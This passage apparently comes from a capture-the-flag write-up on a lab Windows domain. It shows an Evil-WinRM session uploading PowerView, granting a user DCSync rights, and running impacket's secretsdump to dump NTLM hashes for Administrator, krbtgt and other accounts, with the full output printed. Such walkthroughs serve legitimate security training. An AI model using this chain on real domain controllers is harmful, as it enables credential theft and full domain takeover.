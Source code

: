 ```
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10                                   Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
```

I then granted the `r0kit` user the ability to synchronize the domain controller using the `PowerView.ps1` script from the [PowerSploit](https://github.com/PowerShellMafia/PowerSploit) post-exploitation framework:


```
*Evil-WinRM* PS C:\Windows\Temp\r0kit2> upload '/home/kali/tools/PowerSploit/Recon/PowerView.ps1'
Info: Uploading /home/kali/tools/PowerSploit/Recon/PowerView.ps1 to C:\Windows\Temp\r0kit2\PowerView.ps1


Data: 1027036 bytes of 1027036 bytes copied

Info: Upload successful!


*Evil-WinRM* PS C:\Windows\Temp\r0kit2> Import-Module .\PowerView.ps1
*Evil-WinRM* PS C:\Windows\Temp\r0kit2> Add-DomainObjectAcl -PrincipalIdentity r0kit -Rights DCSync
```

After granting the `r0kit` user domain controller replication permissions, I synched the Active Directory database (NTDS.dit) with impacket's `secretsdump.py` script to dump all NTLM hashes from it:

```
$ python3 ~/tools/impacket/examples/secretsdump.py 'htb.local/r0kit:h4ckit!!@10.10.10.161'
Impacket v0.9.22.dev1+20200826.101917.9485b0c2 - Copyright 2020 SecureAuth Corporation

[-] RemoteOperations failed: DCERPC Runtime Error: code: 0x5 - rpc_s_access_denied
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
htb.local\Administrator:500:aad3b435b51404eeaad3b435b51404ee:32693b11e6aa90eb43d32c72a07ceea6:::
Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
krbtgt:502:aad3b435b51404eeaad3b435b51404ee:819af826bb148e603acb0f33d17632f8:::
DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\$331000-VK4ADACQNUCA:1123:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_2c8eef0a09b545acb:1124:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_ca8c2ed5bdab4dc9b:1125:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
htb.local\SM_75a538d3025e4db9a:1126:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
```